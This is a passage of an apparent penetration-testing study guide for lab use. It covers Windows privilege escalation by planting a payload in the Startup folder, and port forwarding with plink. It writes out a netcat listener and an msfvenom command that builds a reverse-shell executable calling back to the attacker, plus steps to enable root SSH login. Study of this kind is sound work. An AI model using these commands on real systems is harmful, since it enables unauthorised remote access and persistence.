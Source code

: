 ### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53  -f exe -o y.exe
```
3. Copy the generated file, `y.exe`, to the Windows VM.

### Windows VM

1. Place `y.exe` in `"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`.

2. logout and login again
### Kali VM

1. Wait for a reverse shell on your kali machine. [Reference](https://3alam.pro/redvirus/articles/privilege-escalation-startup-programs)

# <span style="color:lightblue">Port Forwarding</span>

## <span style="color:lightgreen">Methodology</span>
Let us first understand what Port Forwarding is. Sometimes, after you hack the device, there are internal ports. These internal ports may be infected with a specific vulnerability and operate with high powers, or you may benefit from them in general by increasing permissions.

## <span style="color:lightgreen">Detection</span>
When I did nmap scan on the machine. we didn't get either SMB nor RDP 
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/bea0a5de-6c5d-4c0a-9f59-a71b21351eab)

1. run winPEASE and look for clear credentials in the registry; if you already have ignore the this step
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/ca9fb58c-1cb9-44c1-9af7-148665edbbdc)

2. check the internal open ports in the machine using `"netstate -ano"`. port 445 is locally opened so you need to check what is there. use ssh with [plink.exe](https://github.com/fwbuilder/w32-bin/blob/master/plink.exe)

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/64ca3155-5c20-4c3f-b8f4-47f0232620e1)

## <span style="color:lightgreen">Exploitation</span>

1.  install ssh and edit the config file (kali)
```
apt install ssh && nano /etc/ssh/sshd_config
```
2.  change #PermitRootLogin line in the sshd_config file to the following
```
PermitRootLogin yes
service ssh restart && service ssh enable
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/9cbb48fa-f75d-4e43-8d08-61d8c1233746)
